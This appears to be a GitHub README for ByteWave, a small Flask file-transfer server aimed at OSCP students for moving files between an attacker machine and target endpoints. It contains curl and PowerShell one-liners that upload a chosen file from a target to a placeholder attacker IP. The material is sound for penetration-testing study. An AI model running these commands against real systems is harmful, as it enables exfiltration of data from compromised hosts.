 
# ByteWave
<p align="center">
 	 <img src="https://raw.githubusercontent.com/sazzad1337/sazzad1337/main/images/bytewave.png" alt=bytewave"/>
	</p>

ByteWave is a simple Flask web application for uploading, downloading, and managing files between both attackers <-----> target endpoints. It provides a user-friendly interface for handling file operations from CLI and browsers.
This file upload technique can be valuable for the students preparing for the OSCP exam.

## Setup

1. Clone the repository:

   ```bash
   git clone https://github.com/sazzad1337/ByteWave.git

2. Run the Flask application:

	```bash
	python bytewave.py

## Features


   - **File Upload:**
   
     **Linux:**
     <be>
	<p align="center">
 	 <img src="https://raw.githubusercontent.com/sazzad1337/sazzad1337/main/images/curl.png" alt="poc"/>
	</p>

     ```bash
     curl -F "file=@FILENAME" http://IP/upload
     ```

     **Windows PowerShell:**
     ```bash
     (New-Object System.Net.WebClient).UploadFile('http://IP/upload', 'FILENAME')
     ```


   - **Manage Files:**
   
     ```bash
     http://IP/files
     ```
<p align="center">
  <img src="https://raw.githubusercontent.com/sazzad1337/sazzad1337/main/images/files.png" alt="files"/>
</p>
